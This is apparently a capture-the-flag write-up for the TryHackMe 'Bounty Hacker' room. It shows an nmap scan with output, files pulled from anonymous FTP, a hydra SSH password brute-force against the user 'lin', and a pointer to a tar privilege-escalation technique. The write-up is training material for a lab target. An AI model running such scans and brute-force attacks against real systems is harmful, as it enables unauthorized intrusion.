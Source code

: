## Bounty Hacker
https://tryhackme.com/room/cowboyhacker

### 🍨nmap
```
nmap -Pn -sC -sV -sT 10.10.76.78 -vv
```
```
Discovered open port 80/tcp on 10.10.76.78
Discovered open port 21/tcp on 10.10.76.78
Discovered open port 22/tcp on 10.10.76.78

Completed Connect Scan at 14:03, 18.27s elapsed (1000 total ports)
Not shown: 967 filtered tcp ports (no-response)
PORT      STATE  SERVICE         REASON       VERSION
20/tcp    closed ftp-data        conn-refused
21/tcp    open   ftp             syn-ack      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.95.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      c - secure, fast, stable
|_End of status
22/tcp    open   ssh             syn-ack      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgcwCtWTBLYfcPeyDkCNmq6mXb/qZExzWud7PuaWL38rUCUpDu6kvqKMLQRHX4H3vmnPE/YMkQIvmz4KUX4H/aXdw0sX5n9jrennTzkKb/zvqWNlT6zvJBWDDwjv5g9d34cMkE9fUlnn2gbczsmaK6Zo337F40ez1iwU0B39e5XOqhC37vJuqfej6c/C4o5FcYgRqktS/kdcbcm7FJ+fHH9xmUkiGIpvcJu+E4ZMtMQm4bFMTJ58bexLszN0rUn17d2K4+lHsITPVnIxdn9hSc3UomDrWWg+hWknWDcGpzXrQjCajO395PlZ0SBNDdN+B14E0m6lRY9GlyCD9hvwwB
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMCu8L8U5da2RnlmmnGLtYtOy0Km3tMKLqm4dDG+CraYh7kgzgSVNdAjCOSfh3lIq9zdwajW+1q9kbbICVb07ZQ=
|   256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqmJn+c7Fx6s0k8SCxAJAoJB7pS/RRtWjkaeDftreFw
80/tcp    open   http            syn-ack      Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
zeubu mawaranino...tasukete-..

🚩 21 ftp(Anonymous FTP login allowed vsFTPd 3.0.3), 22 ssh, 80 http open

![image](https://user-images.githubusercontent.com/6504854/177257671-8e268471-ce79-45fe-84e6-31e93a1a2085.png)

![image](https://user-images.githubusercontent.com/6504854/177254658-5714cba4-1cce-41e9-b289-49e996107c17.png)

![image](https://user-images.githubusercontent.com/6504854/177254818-51630b9f-e2b7-4210-ace5-024c00fe8df6.png)


🚩 Now, we got 2 files. Lin's task list(task_local.txt) and passwordlist? or something(locks_local.txt).

```
hydra -l lin -P locks_local.txt ssh://10.10.76.78 -vv
```
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-05 13:42:03
[22][ssh] host: 10.10.76.78   login: lin   password: ******************
[STATUS] attack finished for 10.10.76.78 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

### 🍨flag
![image](https://user-images.githubusercontent.com/6504854/177256105-664be3f5-551e-403e-9522-f56ebaab5683.png)

https://gtfobins.github.io/gtfobins/tar/#shell

:smile: Thank you for your time. Have a good day!


### 🍨Omake
![image](https://user-images.githubusercontent.com/6504854/177256663-ba2abd83-b09a-439f-84ea-6c85318a1a90.png)

(#｀皿´) DoSﾀﾞｹｶﾖ...ﾍﾟｯ

